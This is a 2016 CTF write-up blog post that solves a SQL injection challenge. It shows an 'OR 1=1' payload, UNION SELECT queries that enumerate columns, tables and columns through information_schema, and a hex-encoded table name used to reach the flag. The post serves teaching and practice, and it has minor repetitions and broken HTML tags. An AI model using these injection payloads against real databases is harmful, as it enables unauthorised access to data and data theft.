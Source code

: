 ```yaml
---
layout:     post
title:      "ABCTF-2016 - Reunion Solution"
subtitle:   "SQLi Challenge"
date:       2016-07-26 12:00:00
author:     "Snoopy, the Security Dog"
header-img: "img/abcd/0003.png"
---
```


<h2>ABCTF-2016 - Reunion Solution</h2>

<p>This challenge involved retrieving and flag using SQL injection.

By looking at the page, it is obvious that the application is vulnerable to SQL injection. This can be confirmed by inputting </b> 2 OR 1=1--</b> in the id parameter.
<br>
<img alt="" src="http://snoopythesecuritydog.github.io/img/abcd/0001.png"/>


More enumeration can be conducted using the UNION statement:

<blockquote>1 UNION SELECT 1,1,1,1</blockquote>

This was used to find out the numbers of columns. Furthermore, the union statement can be used to find other information regarding the datbase using the following variables:

<ul>
  <li> Version : SELECT VERSION()</li>
  <li> User details: user()</li>
<li> Database details : SELECT db_name(); SELECT database();</li>
<li> Server details : SELECT @@hostname;</li>
 </ul>

Using these information, we can find out the current table used by the database.

<blockquote>2 UNION SELECT table_name,1,1,1 from information_schema.tables where table_schema = database()</blockquote>

<img alt="" src="http://snoopythesecuritydog.github.io/img/abcd/0002.png"/>

Using these information, we can find out the current table used by the database.

<blockquote>2 UNION SELECT table_name,1,1,1 from information_schema.tables where table_schema = database()</blockquote>

Using this query, you can get the tablename which is <br>w0w_y0u_f0und_m3</b>. This query can then be used to get the column name.

<br>
<blockquote>
union select column_name,1,1,1 from information_schema.columns where table_name = 0x7730775f7930755f6630756e645f6d33.0x7730775f7930755f6630756e645f6d33 
</blockquote>

The table name is the hex encoded value of the table name which was found perviously. This is necessary since this is integer based SQL Injection.

Using this, you can query and get the flag

</blockquote>abctf{uni0n_1s_4_gr34t_c0mm4nd}</blockquote>

<br>


<img alt="" src="http://snoopythesecuritydog.github.io/img/abcd/0004.png"/>

</p>
